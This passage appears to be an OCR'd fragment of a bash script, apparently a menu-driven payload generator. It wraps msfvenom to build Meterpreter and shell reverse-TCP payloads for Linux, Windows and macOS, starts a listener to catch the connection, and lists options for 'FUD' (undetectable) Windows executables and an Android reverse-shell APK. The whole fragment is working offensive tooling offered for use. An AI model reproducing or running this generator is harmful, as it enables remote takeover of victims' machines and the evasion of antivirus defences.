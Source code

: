 sleep 0.5
clear
shellcode_based
fi



msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f $lang > $payload_name
listener
}

shellcode() {
clear
#banner
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Shellcode based payloads:\e[0m\n"
printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m1\e[0m\e[1;93m] Linux\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m2\e[0m\e[1;93m] Windows\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m3\e[0m\e[1;93m] MAC\e[0m\n"
printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m99\e[0m\e[1;93m]\e[0m\e[1;77m Back\e[0m\n"
printf "\n"
read -p $'\e[1;92m[*] Choose an option:\e[0m\e[1;77m ' option_shell

if [[ $option_shell == 1 ]]; then
payload="linux/x86/meterpreter/reverse_tcp"
start
shellcode_based
listener
elif [[ $option_shell == 2 ]]; then
payload="windows/meterpreter/reverse_tcp"
start
shellcode_based
listener
elif [[ $option_shell == 3 ]]; then
payload="osx/x86/shell_reverse_tcp"
start
shellcode_based
listener
elif [[ $option_shell == 99 ]]; then
clear
menu_payload
else
printf "\e[1;93m[\e[1;77m!\e[0m\e[1;93m] Invalid option!\e[0m"
sleep 0.5
clear
shellcode
fi

}




function  menu_payload() {
clear
dependencies_payload
printf "\e[1;93m[\e[0m\e[1;77m01\e[0m\e[1;93m] Binaries Payloads\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m02\e[0m\e[1;93m] Web Payloads\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m03\e[0m\e[1;93m] Scripting Payloads\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m04\e[0m\e[1;93m] Shellcode\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m05\e[0m\e[1;93m] FUD 32bit Windows .EXE file\e[0m\n"
printf "\e[1;93m[\e[0m\e[1;77m06\e[0m\e[1;93m] Android Reverse Shell APK\e[0m\n"
printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m99\e[0m\e[1;93m]\e[0m\e[1;77m Back\e[0m\n"
read -p $'\e[1;92m[*] Choose an option:\e[0m\e[1;77m ' option
